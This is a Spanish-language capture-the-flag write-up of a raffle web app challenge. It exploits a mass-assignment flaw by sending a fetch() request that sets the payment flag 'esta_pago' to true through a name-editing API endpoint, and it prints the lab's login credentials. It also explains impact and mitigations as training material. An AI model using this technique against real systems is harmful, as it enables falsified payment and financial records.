





# Gran Rifa 2019 - SoftwareSeguro

**Dificultad:** CTF<br>
**Fecha:** 09/2026<br>
**Sistema:** Web / API<br>
**Objetivo:** Marcar como pagada una rifa sin que haya sido pagada realmente<br>
**Acceso inicial:** Mass Assignment en endpoint de edición de API

## Herramientas

`Chrome DevTools`

## Técnicas

`API Enumeration` `HTTP Request Analysis` `Mass Assignment` `Broken Object-Level Authorization`

## Introducción

El desafío presenta un sistema de rifas donde el usuario `guido` (vendedor) tiene registradas varias ventas, cada una con un campo `esta_pago` que indica si el comprador abonó o no. Entre los compradores figura "John Backus", cuya rifa (id 4, número 454) tiene `esta_pago: false`. El objetivo es lograr que ese registro quede marcado como pagado sin que el pago haya ocurrido realmente.

## Reconocimiento

Autenticado como `guido` / `RIFA_2019`, se accede al endpoint de la API que expone el listado completo de rifas vendidas:

```text
GET /api/numeros/
```



```json
[
  {
    "id": 4,
    "numero": 454,
    "vendedor": "Guido van Rossum",
    "comprador": "John Backus",
    "esta_pago": false
  }
  ...
]
```

El registro de interés es el de `id: 4`, correspondiente a John Backus, con `esta_pago: false`.

## Hallazgo del endpoint de edición

La interfaz web incluye una funcionalidad legítima para que el vendedor edite el nombre del comprador de una rifa. Interceptando esa acción con DevTools → Network, se captura la petición real que dispara:



```text
POST /api/numeros/1/editar/
Content-Type: application/json

{"comprador":"este nombre fue modificado"}
```

Esto confirma la existencia de un endpoint `POST /api/numeros/<id>/editar/`, pensado para actualizar el campo `comprador` de un registro puntual, usando la cookie de sesión del usuario autenticado.



## Vulnerabilidad identificada

**Mass Assignment (CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes)**

El endpoint `/api/numeros/<id>/editar/` recibe el `body` de la petición y actualiza el registro correspondiente en base a los campos recibidos, sin restringir ni validar cuáles de esos campos están realmente permitidos para ese usuario o esa acción. La interfaz visual solo expone el campo `comprador` como editable, pero el backend no aplica ningún control adicional sobre el resto de los atributos del objeto (como `esta_pago`), permitiendo modificar cualquier campo del registro simplemente incluyéndolo en el JSON enviado.

## Explotación

Se reutiliza la misma estructura de petición capturada (mismo método `POST`, mismos headers, misma sesión autenticada), apuntando al `id` del registro de John Backus (`4`), pero reemplazando el `body` para incluir el campo `esta_pago` en lugar de `comprador`:

```javascript
await fetch("https://<instancia>-gran-rifa-2019.softwareseguro.com.ar/api/numeros/4/editar/",
{ method: "POST",
headers: {"Content-Type": "application/json"},
body: JSON.stringify({esta_pago: true}),
credentials: "include"
}).then(r => r.json()).then(console.log)
```



El servidor acepta el campo sin cuestionarlo y actualiza el registro.

## Resultado

Consultando nuevamente el listado completo (`GET /api/numeros/`), el registro de John Backus (id 4) ahora figura con `esta_pago: true`, sin que se haya realizado ningún pago real.



## Impacto

Cualquier usuario autenticado con acceso al endpoint de edición de sus propias rifas puede modificar campos que no deberían estar bajo su control, como el estado de pago. En un sistema real de rifas o ventas, esto permitiría a cualquier vendedor marcar como pagadas transacciones que nunca se cobraron, falseando registros contables y financieros sin dejar rastro de una validación de pago real (como una pasarela de pagos) de por medio.

## Conclusión

El desafío demuestra cómo un endpoint diseñado para un propósito acotado (editar un único campo visible en la interfaz) puede convertirse en una vía de ataque cuando el backend no limita explícitamente qué atributos de un objeto pueden modificarse a través de él. La ausencia de una lista blanca de campos permitidos (allowlist) convirtió una función de edición de nombre en una forma de alterar el estado financiero de una transacción.

## Mitigación

1. Definir explícitamente qué campos puede modificar cada endpoint (allowlist), ignorando o rechazando cualquier campo adicional presente en el body de la petición.
2. Separar la lógica de actualización de campos "seguros" (como el nombre de un comprador) de campos sensibles (como el estado de pago), que deberían actualizarse únicamente a través de un flujo controlado (por ejemplo, confirmado por una pasarela de pagos), nunca directamente desde un endpoint de edición genérico.
3. Aplicar el principio de menor privilegio también a nivel de atributos: que un usuario pueda editar un recurso no implica que deba poder modificar todos sus campos.
